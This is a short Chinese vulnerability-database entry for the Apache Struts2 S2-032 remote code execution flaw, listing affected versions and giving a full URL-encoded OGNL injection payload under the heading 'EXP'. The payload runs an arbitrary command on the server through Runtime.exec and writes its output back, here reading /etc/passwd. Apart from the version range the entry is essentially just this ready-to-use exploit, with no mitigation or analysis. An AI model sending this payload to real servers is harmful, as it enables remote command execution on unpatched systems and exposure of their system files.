 ```yaml
---
title: 'Struts2 S2-032远程代码执行'
date: Mon, 24 Aug 2020 13:20:51 +0000
draft: false
tags: ['RCE', 'struts2', '白阁-漏洞库', '远程命令执行']
---
```


### 影响范围

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

### EXP

`?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat /etc/passwd`

![](http://47.100.15.78/wp-content/uploads/2020/08/微信截图_20200824211724.png)
